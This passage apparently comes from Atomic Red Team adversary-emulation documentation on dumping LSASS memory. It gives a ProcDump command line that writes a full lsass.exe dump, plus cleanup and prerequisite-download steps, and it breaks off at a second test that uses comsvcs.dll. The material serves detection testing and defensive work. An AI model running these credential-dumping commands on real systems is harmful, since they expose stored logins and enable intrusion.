 
#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
"#{procdump_exe}" -accepteula -ma lsass.exe #{output_file}
```

#### Cleanup Commands:
```cmd
del "#{output_file}" >nul 2> nul
```



#### Dependencies:  Run with `powershell`!
##### Description: ProcDump tool from Sysinternals must exist on disk at specified location (#{procdump_exe})
##### Check Prereq Commands:
```powershell
if (Test-Path "#{procdump_exe}") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
Invoke-WebRequest "https://download.sysinternals.com/files/Procdump.zip" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip"
Expand-Archive "PathToAtomicsFolder\..\ExternalPayloads\Procdump.zip" "PathToAtomicsFolder\..\ExternalPayloads\Procdump" -Force
New-Item -ItemType Directory (Split-Path "#{procdump_exe}") -Force | Out-Null
Copy-Item "PathToAtomicsFolder\..\ExternalPayloads\Procdump\Procdump.exe" "#{procdump_exe}" -Force
```




<br/>
<br/>

## Atomic Test #2 - Dump LSASS.exe Memory using comsvcs.dll
The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with a built-in dll.

Upon successful execution, you should see the following file created $env:TEMP\lsass-comsvcs.dmp.

**Supported Platforms:** Windows


**auto_generated_guid:** 2536dee2-12fb-459a-8c37-971844fa73be






#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin) 
